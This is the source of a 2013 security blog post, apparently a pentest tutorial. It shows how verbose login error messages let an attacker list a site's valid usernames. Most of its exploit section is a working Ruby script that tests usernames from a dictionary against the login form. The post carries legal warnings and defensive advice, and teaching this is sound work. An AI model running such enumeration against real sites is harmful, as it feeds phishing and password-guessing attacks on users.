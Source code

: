 ```yaml
---
layout: post
title: "Tales from a login page: exploit the form"
date: 2013-09-03 07:50
comments: true
published: true
featured: false
tags: h4f pentest-with-ruby owasp tales-from-login owasp-top-10 broken-authentication basm login session authentication railsberry 
thumb: folla.png
level:
hn: 
rd: 
---
```


[Last time](http://armoredcode.com/blog/tales-from-a-login-page-intro/) we
introduced the login form as seen on the attacker perspective.

The idea is to have laconic messages on error, not to give too much information
to an attacker and sanitize your input wisely to avoid authentication bypass
via SQL Injection.

Today we see how to exploit the login form to collect a list of existing
usernames on the site. Eventually we will try for very basic password as an
optional step.

<!-- more -->

## A vulnerable target 

Let's see we've got a [web site](https://github.com/thesp0nge/railsberry2013)
with an information disclosure problem. Our target gives too much detailed
error message when something went wrong during authentication.

With a site like this, we can enumerate existing usernames we can use in a fine
target attack (phishing mail campaign, weak password guessing and so on).

If we want also to exploit passwords, what we need is an existing user in order
to see the message or the page an authenticated user is redirect to. We need to
learn the success case. General purpose websites are happy to register new
users, so create one and you will use it later on.

We need also a dictionary of words to use to bruteforce our target, but now
it's time to remind you that...

{% blockquote %}
Attacking a web site without a formal engagement is a crime in almost all
countries around the world, yes... even in Italy. You have also to remember
that most of organizations have some firewall (to control network access or to
protect web access or even both of twos) so eventually you're attacking
attempts will be traced.

Using tor or other proxy anonymizer services won't help you that much since
some of the networks you would use are blacklisted by firewall vendors or
network carriers.
{% endblockquote %}

## Exploiting it

The exploit script core is vert simple. I used a dictionary I found on the Net
specially designed for username guessing. I won't disclose it now, Google is
your friend.

The first thing we do is to check the response posting an existing username
(the one we just created) with a wrong password and an "hopefully" non existing
username to see how the website answers in both cases.

``` ruby check if we can enumerate users
wrong_pwd   = post(url, username, "caosintheground").body.gsub(username, 'canary_username')
wrong_creds = post(url, "caostherapy", "caosintheground").body.gsub("caostherapy", "canary_username")

die("response is the same if the username is good but password wrong or creds are wrong. Can't bruteforce") if wrong_pwd == wrong_creds
```

Then we create an array with usernames if posting a login taken from a dictionary with a very random password we get as answer a wrong password message.

``` ruby creating the array
r= post(url, line, "loremispumhopenobodyintheworldwillreallyusethisaspasswordbutifyoudidityourenotthatsmartasyouthing.4nt4n1")
found << line if r.body == wrong_pwd.gsub("canary_username", line) and found.find_index(line).nil?
``` 


The whole script (without some trivial code you may want to write on your own) is the following.

``` ruby enumarating valid usernames on a vulnerable login form
@post = true
@dictionary = "./popular_users_small.txt"
username = val

log("existing user #{username} used as canary")

wrong_pwd   = post(url, username, "caosintheground").body.gsub(username, 'canary_username')
wrong_creds = post(url, "caostherapy", "caosintheground").body.gsub("caostherapy", "canary_username")

die("response is the same if the username is good but password wrong or creds are wrong. Can't bruteforce") if wrong_pwd == wrong_creds

die "can't open #{@dictionary}" unless File.exists?(@dictionary)
lines = File.readlines(@dictionary)
log("#{lines.size} words from dictionary loaded")

found = []

lines.each do |line|
  @i += 1

  begin
    line = line.chomp.gsub(' ', '-').gsub("à", "a").gsub("è", "e").gsub("é", "e").gsub("ò", "o").gsub("ù", "u")
  rescue Exception => e
    err(e.message)
    line = "# discarded"
  end

  if ! line.start_with?("#")
    sleep(@sleep_time)
    log("awake... probing with: #{line}")


    r= post(url, line, "loremispumhopenobodyintheworldwillreallyusethisaspasswordbutifyoudidityourenotthatsmartasyouthing.4nt4n1")
    found << line if r.body == wrong_pwd.gsub("canary_username", line) and found.find_index(line).nil?
  end

end
log("#{found.size} user(s) found")
if found.size != 0
  found.each do |user|
    ok(user)
  end
end
helo "shutting down"
remove_pid_file
Kernel.exit(0)
```

## Off by one

As you may see, attacking a web site can be trivial when it gaves too much details. 
Remember also that you don't want to attack a web site you are not authorized to.
And next time, we will talk about cookies...

_Photo courtesy by [Fon-tina](http://www.flickr.com/photos/fontina/)_
